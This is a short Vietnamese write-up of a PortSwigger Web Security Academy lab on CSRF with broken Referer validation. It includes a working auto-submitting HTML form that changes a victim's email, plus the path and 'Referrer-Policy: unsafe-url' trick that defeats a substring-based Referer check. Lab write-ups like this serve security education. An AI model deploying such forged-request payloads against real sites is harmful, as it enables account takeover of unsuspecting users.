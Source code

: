 # [Lab: CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/lab-referer-validation-broken)

Lỗ hổng: CSRF protection dựa vào header Referer, so sánh không đầy đủ.

Sau một hồi cắt bỏ header Referer thì suy ra Referer cần phải có đoạn `0a38002c04ca4f89c0261cd6001f00d5.web-security-academy.net`, trước sau có gì không quan trọng.

exploit:
Body vẫn thế
```
<html>
    <body>
        <form action="https://0a38002c04ca4f89c0261cd6001f00d5.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="pwned@evil-user.net">
</form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Đường dẫn cho đoạn cần thiết vào
```
/0a38002c04ca4f89c0261cd6001f00d5.web-security-academy.net/
```

Và phần header phải có:
```
Referrer-Policy: unsafe-url
```
thì nó mới lấy hết path chứa phần yêu cầu kia.